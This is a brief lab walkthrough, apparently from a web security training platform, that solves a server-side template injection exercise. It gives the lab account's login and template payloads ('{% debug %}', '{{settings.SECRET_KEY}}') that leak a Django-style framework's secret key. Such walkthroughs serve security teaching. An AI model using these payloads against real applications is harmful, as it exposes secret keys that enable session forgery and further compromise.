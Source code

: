 # Lab: Server-side template injection with information disclosure via user-supplied objects

This lab is vulnerable to server-side template injection due to the way an object is being passed into the template. This vulnerability can be exploited to access sensitive data.

To solve the lab, steal and submit the framework's secret key.

You can log in to your own account using the following credentials:

`content-manager:C0nt3ntM4n4g3r`\


## Steps

* Visit the target website
* Click on View details button
* Edit the template and use the below commands

```
{% raw %}
{% debug %}
{% endraw %}




{{settings.SECRET_KEY}}
```
